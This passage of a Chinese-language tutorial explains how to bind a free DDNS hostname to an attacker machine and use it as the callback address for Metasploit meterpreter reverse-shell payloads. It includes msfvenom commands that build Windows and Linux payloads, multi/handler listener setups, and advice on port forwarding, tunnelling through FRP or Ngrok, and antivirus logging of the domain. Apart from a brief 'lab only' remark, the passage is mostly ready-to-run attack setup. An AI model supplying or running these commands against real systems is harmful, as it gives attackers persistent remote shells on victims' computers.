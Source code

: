 # 启动 DDNS 客户端
sudo /usr/local/bin/noip2
</code></pre>
<h3>4.3 验证</h3>
<pre><code class="language-bash">ping myhacker.ddns.net
</code></pre>
<p>如果能解析到你的公网 IP，说明绑定成功。</p>
<hr>
<h2>5. 在 Metasploit 中替换固定 IP</h2>
<p>假设你原来这样生成 Payload：</p>
<pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp LHOST=123.45.67.89 LPORT=4444 -f exe -o payload.exe
</code></pre>
<p>改成域名：</p>
<pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp LHOST=myhacker.ddns.net LPORT=4444 -f exe -o payload.exe
</code></pre>
<p>监听时同样替换：</p>
<pre><code class="language-bash">msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST myhacker.ddns.net
set LPORT 4444
run
</code></pre>
<p><strong>效果</strong><br>
即使你的公网 IP 变了，只要 DDNS 客户端更新成功，Payload 依然能连接回来。</p>
<hr>
<h2>6. 注意事项</h2>
<ul>
<li>
<p><strong>防火墙端口映射（NAT 转发）</strong>：如果攻击机在路由器后面，需要在路由器上把 LPORT（如 4444）映射到你的内网 IP。</p>
</li>
<li>
<p><strong>公网 IP</strong>：移动宽带、4G/5G 常用 CGNAT（共享公网 IP），需使用 VPS 中转或反向隧道（FRP、Ngrok）。</p>
</li>
<li>
<p><strong>域名解析延迟</strong>：免费 DDNS 更新到全网 DNS 可能有几秒到几分钟延迟。</p>
</li>
<li>
<p><strong>实验隔离</strong>：DDNS 域名可能被杀软记录，务必在实验环境中使用。</p>
</li>
</ul>
<hr>
<h2>7. 实验流程分终端示例</h2>
<h3>终端 1（攻击机 - 麒麟/Kali）</h3>
<pre><code class="language-bash"># 运行 DDNS 客户端
sudo noip2
# 启动 Metasploit 监听
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST myhacker.ddns.net
set LPORT 5555
run
</code></pre>
<h3>终端 2（生成 Payload）</h3>
<pre><code class="language-bash">msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=myhacker.ddns.net LPORT=5555 -f elf -o kylin_payload.elf
</code></pre>